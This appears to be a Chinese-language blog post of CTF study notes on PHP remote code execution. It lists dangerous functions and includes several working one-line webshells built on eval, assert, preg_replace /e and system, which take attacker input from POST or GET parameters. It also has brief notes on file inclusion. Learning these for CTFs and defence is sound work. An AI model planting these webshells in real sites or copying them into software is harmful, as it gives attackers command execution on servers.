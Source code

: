 ```
layout:     post
title:      Web小知识-RCE
subtitle:   A power that one command converys
date:       2025-04-15
author:     sword Reforge
header-img: img/post-bg-coffee.jpg
catalog: 	  true
tags:

   - 知识
```

###### 常用函数

eval()
system()
assert()
exec()
preg_replace()
shell_exec()
call_user_func()
passthru()
array_map()
popen()
这些函数都是常见的敏感函数，容易造成一些危险的漏洞
当然也是很重要的考点，其具体作用参考(https://zhuanlan.zhihu.com/p/622502997)

这些是一个笼统的记录，他们有不同的危险特色：
\###1、代码执行系
这些函数能够执行一些php的代码，造成危险，同时是flag的获取点

#### eval()

大名鼎鼎，臭名昭著。一句话木马常客一号。

```
<?php @eval($_POST['shell']);?>
```



#### assert()

同样是很敏感的东西，一句话木马常客二号

```
<?php assert(@$_POST['shell']); ?>
```



#### preg_replace()

这个不太常用，当匹配模式/e时，该函数会将$replacement作为php代码执行
贴一份对应一句话木马

```
preg_replace("/test/e",$_GET["shell"],"just test");
```



剩下几个使用范围较少，有的甚至已经被弃用了，这里就不做介绍了：
create_function() (**在php7.2.0后被废弃**)
array_map()
call_user_func()
call_user_func_array()
array_filter()

### 2、命令执行系

#### system()

漏洞头头，这里放出一句话木马的形式：

```
<?php
    system($_GET['cmd']);
?>
```



#### exec() 执行外部程序

```
<?php 
    echo exec("whoami");
?>
```



#### shell_exec() 通过shell环境执行命令，并将完整的输出以字符串的方式返回

```
<?php 
    echo shell_exec("whoami");
?>
```



剩下的由于不怎么常用，这里仅做列举
passthru() 执行外部程序并且显示原始输出

```
<?php 
    passthru("whoami");
?>
```



proc_open() 执行一个命令，并且打开用来输入/输出的文件指针
pcntl_exec() 在当前进程空间执行指定程序
popen() 打开进程文件指针
反引号，实质上还是调用的shell_exec()函数，在CTF题目里面有的时候会忘记过滤导致直接拿到flag

### 文件包含系

php中包含的函数一共有四个，主要作用为包含并运行指定文件
require() 函数
inclue() 函数
require_once() 函数
include_once() 函数
include()与require_once()主要的区别是：include()在包含的过程中如果出现错误，会抛出一个警告，程序继续运行；而require()函数出现错误时，会直接报错并退出程序的执行
require_once()和include_once()，显然表示的是文件只包含一次的意思，避免函数重定义和变量重新赋值等问题
这些函数通常配和伪协议来实现文件包含漏洞；

### SSRF系

~~没学过还不会，先放着~~

### XXE系

~~也没学过~~

## 其他：

php的变量名使用字母数字和下滑线构成的，所以会将空格、+、点、[转换为下划线，但是当[提前出现后，后面的点就不会再变成_了